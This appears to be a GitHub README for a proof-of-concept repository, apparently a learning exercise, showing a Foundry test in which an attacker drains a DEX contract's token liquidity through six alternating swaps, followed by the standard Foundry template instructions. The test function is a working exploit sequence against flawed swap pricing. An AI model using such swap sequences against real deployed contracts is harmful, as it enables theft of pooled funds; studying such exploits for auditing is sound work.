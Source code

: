 # PoC Dex
## Overview:
An attacker can exploit the Dex contract by performing a series of swaps to drain the liquidity. 

## Actors:
### Attacker - The attacker make some series of swaps to the DEX to drain the liquidity
### Protocol - The protocol is a DEX that allows two different types of token to be swapped.

### Test Case:

```
function test_multiple_swaps() public {
        vm.startPrank(attacker);
        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);

        uint256 token1Expected = token1.balanceOf(address(dex));
        dex.swap(address(token1), address(token2), 10);
        dex.swap(address(token2), address(token1), 20);
        dex.swap(address(token1), address(token2), 24);
        dex.swap(address(token2), address(token1), 30);
        dex.swap(address(token1), address(token2), 41);
        dex.swap(address(token2), address(token1), 45);

        uint256 token1Balance = token1.balanceOf(attacker);
        uint256 token1ExpectedAfter = token1.balanceOf(address(dex));

        assert(token1Balance == token1Expected + 10);
        assertEq(token1ExpectedAfter, 0);
    }
```


## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
